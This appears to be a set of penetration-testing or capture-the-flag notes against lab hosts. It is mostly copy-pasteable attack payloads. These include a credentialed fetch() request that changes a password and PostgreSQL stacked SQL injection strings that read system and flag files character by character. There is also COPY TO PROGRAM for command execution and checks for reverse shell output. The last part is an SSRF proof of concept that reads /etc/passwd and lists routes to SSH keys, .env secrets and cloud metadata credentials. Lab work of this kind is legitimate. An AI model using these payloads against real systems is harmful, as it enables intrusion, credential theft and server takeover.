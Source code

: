 Fetch -> sql website with rabbit

fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
  },
  body: "password=testtest",
  credentials: "include"
});


version
00000000-0000-0000-0000-000000000000'; (SELECT CAST(ASCII(SUBSTRING(version(),1,1)) AS integer))--
cant be tested multiple times
SUBSTRING(version(),2,1)
SUBSTRING(version(),3,1)

current user
00000000-0000-0000-0000-000000000000'; (SELECT CAST(ASCII(SUBSTRING(current_user,1,1)) AS integer))--

superuser 1 if yes 0 if no
00000000-0000-0000-0000-000000000000'; (SELECT CAST((SELECT CASE WHEN rolsuper THEN 1 ELSE 0 END FROM pg_roles WHERE rolname = current_user) AS integer))--



read file
00000000-0000-0000-0000-000000000000'; (SELECT CAST(LENGTH(pg_read_file('/etc/passwd', 0, 1000)) AS integer))--



shell if superuser
COPY (SELECT '') TO PROGRAM 'id > /tmp/test.txt';


Check if file readable	
' ; (SELECT CAST(LENGTH(pg_read_file('/etc/passwd',0,1000)) AS integer))--

Extract 1 char	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/etc/passwd',0,1000),1,1)) AS integer))--

Check for flag file	
' ; (SELECT CAST(LENGTH(pg_read_file('/flag.txt',0,1000)) AS integer))--

Dump flag.txt	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/flag.txt',0,1000),1,1)) AS integer))--

RCE file existence check	
' ; (SELECT CAST(LENGTH(pg_read_file('/tmp/test.txt',0,100)) AS integer))--

Check for reverse shell output	
' ; (SELECT CAST(ASCII(SUBSTRING(pg_read_file('/tmp/shell.log',0,100),1,1)) AS integer))--



POC: SSRF → Local File Disclosure (one-page, copy-pasteable)

Target: http://192.168.62.68
Finding: Server accepts user-supplied URL and fetches arbitrary file:// URIs — confirmed by returned /etc/passwd content.
Severity: High → Local file disclosure; potential for further pivot (internal services, cloud metadata).
Scope / Authorization: Only test if authorized. Do not perform out-of-scope destructive actions.

Reproduction (exact steps)

Log in (if required) and navigate to Orders → Start New Order (or /orders/new).

In Model Content → Get Content from URL enter:

file:///etc/passwd


Submit the order and/or click Save / Submit.

Visit the order details page (/orders/1 or the order id created). The page displays content similar to:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin


Evidence: screenshot(s) of the order details showing the /etc/passwd contents (already captured).

Exact example HTTP request (form-encoded)

POST /orders/new HTTP/1.1
Host: 192.168.62.68
Content-Type: application/x-www-form-urlencoded

material=Plastic&model_url=file:///etc/passwd&action=submit

Impact & Attack Surface

Confirmed: Arbitrary local file read via file:// SSRF (server-side fetch echoes file content into order details).

Possible escalation paths:

Read app config files (e.g. .env, config.php) → DB credentials, API keys.

Read SSH private keys (/root/.ssh/id_rsa) or service keys → account/server takeover (very high).

Access internal HTTP services (127.0.0.1:5984, :9200, :2375, etc.) → unauthenticated admin APIs.

Cloud metadata (169.254.169.254) → IAM credentials (critical).

Notes: Order status changes to Under Review indicate an automated or admin-triggered fetch (blind SSRF risk).

Safe test payloads (non-destructive)

file:///etc/passwd — confirmed.

file:///var/www/.env — look for DB creds, API keys.

file:///etc/nginx/nginx.conf or file:///etc/apache2/sites-enabled/000-default.conf — server vhost info.

http://127.0.0.1:5984/ — CouchDB banner (if present).

OOB detection (blind SSRF): http://<your-collab-id>.burpcollaborator.net/<unique> — use only to detect callbacks.

Do not retrieve or exfiltrate secrets (SSH keys, tokens, metadata creds) unless explicitly authorized.
